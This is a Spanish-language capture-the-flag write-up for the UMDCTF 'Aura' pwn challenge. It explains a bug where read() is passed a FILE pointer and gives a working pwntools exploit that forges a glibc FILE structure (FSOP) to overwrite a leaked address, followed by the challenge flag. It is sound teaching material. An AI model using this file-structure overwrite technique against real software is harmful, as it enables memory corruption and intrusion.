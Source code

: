 # Aura

## Analisis

Reconstruccion del codigo fuente a partir del decompilado:
``` C
undefined8 main(void)

{
  FILE *pFVar1;
  long in_FS_OFFSET;
  undefined local_138 [32];
  undefined local_118 [264];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setbuf(stdin,(char *)0x0);
  setbuf(stdout,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  printf("my aura: %p\nur aura? ",&aura);
  pFVar1 = fopen("/dev/null","r");
  read(0,pFVar1,0x100);
  fread(local_118,1,8,pFVar1);
  if (aura == 0) {
    puts("u have no aura.");
  }
  else {
    pFVar1 = fopen("flag.txt","r");
    fread(local_138,1,0x11,pFVar1);
    printf("%s\n ",local_138);
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

Este binario abre el dispositivo `/dev/null` y escribe en el hasta 0x100 bytes con `read` (esto al final se almacena en el heap)

Luego fread intenta leer 0x11 bytes desde `pfVar1` y lo almacena en el buffer `local_38`

El problema es que `fopen` devuelve un puntero a estructura `*FILE` y read espera un descriptor de archivo (un entero, no un puntero)

## FSOP

Como el `read` escribe directamente arriba de la estructura FILE podemos sobreescribirla para cambiar el buffer de entrada a la direccion de memoria de aura (que nos filtran) y sobreescribir su valor

https://cboard.cprogramming.com/c-programming/172974-how-does-file-struct-work-stdio-h.html

``` C
struct _IO_FILE {
  int _flags;        /* High-order word is _IO_MAGIC; rest is flags. */
#define _IO_file_flags _flags
 
  /* The following pointers correspond to the C++ streambuf protocol. */
  /* Note:  Tk uses the _IO_read_ptr and _IO_read_end fields directly. */
  char* _IO_read_ptr;    /* Current read pointer */
  char* _IO_read_end;    /* End of get area. */
  char* _IO_read_base;    /* Start of putback+get area. */
  char* _IO_write_base;    /* Start of put area. */
  char* _IO_write_ptr;    /* Current put pointer. */
  char* _IO_write_end;    /* End of put area. */
  char* _IO_buf_base;    /* Start of reserve area. */
  char* _IO_buf_end;    /* End of reserve area. */
  /* The following fields are used to support backing up and undo. */
  char *_IO_save_base; /* Pointer to start of non-current get area. */
  char *_IO_backup_base;  /* Pointer to first valid character of backup area */
  char *_IO_save_end; /* Pointer to end of non-current get area. */
 
  struct _IO_marker *_markers;
 
  struct _IO_FILE *_chain;
 
  int _fileno;
#if 0
  int _blksize;
#else
  int _flags2;
#endif
  _IO_off_t _old_offset; /* This used to be _offset but it's too small.  */
 
#define __HAVE_COLUMN /* temporary */
  /* 1+column number of pbase(); 0 is unknown. */
  unsigned short _cur_column;
  signed char _vtable_offset;
  char _shortbuf[1];
 
  /*  char* _save_gptr;  char* _save_egptr; */
 
  _IO_lock_t *_lock;
};
```

Lo mas importante aqui son los campos `_flags`, `_IO_buf_base`, `_IO_buf_end` y  `int _fileno`

Un valor de 0x8000 parar `_flags` es IO_USER_BUFF, buffer controlado por el usuario

`_IO_buf_base` es la direccion sobre la que se va a escribir, en este caso queremos la direccion base de aura

`_IO_buf_end` es el final de la direccion sobre la que se va a escribir, como se van a escribir 0x11 bytes, es *aura+0x10

`int _fileno` con valor 0 indica que se leera de la salida estandar

Asignamos estos valores y los campos intermedios los rellenamos con ceros

Exploit:
``` python
from pwn import *
# p = process("./aura")
p = remote("challs.umdctf.io",31006)

# Get aura address
p.recvuntil("my aura: ")
aura_addr = p.recvline()[:-1].decode()
aura_addr = aura_addr[2:]
aura_addr = bytes.fromhex(aura_addr)
aura_addr = int(aura_addr.hex(), 16)

print(f" aura at {hex(aura_addr)}")

p.recvuntil(b'ur aura? ')


# Complete FILE structure
payload  = p64(0x8000)                 # _flags                # _IO_USER_BUF flag
payload += p64(0)                      # _IO_read_ptr          # set all reads to null to force fread to read from stdin
payload += p64(0)                      # _IO_read_end
payload += p64(0)                      # _IO_read_base
payload += p64(0)                      # _IO_write base        # set writes to null because we are not using them
payload += p64(0)                      # _IO_write_ptr
payload += p64(0)                      # _IO_write_end
payload += p64(aura_addr)              # _IO_buf_base      # start of address to write to
payload += p64(aura_addr + 0x10)       # _IO_base_end      # end of address to write to
payload += p64(0) * 8                  # int _fileno somewhere here, set to 0 to force fread to read from stdin
payload += p64(0)                      #_IO_lock (after int _fileno)

p.sendline(payload)

# our stdin (fread uses this to write into aura)
p.sendline(b'A' * 0x10)                 # if you send as little as 16 you can read the flag

p.interactive()
```

`UMDCTF{+100aur4}`
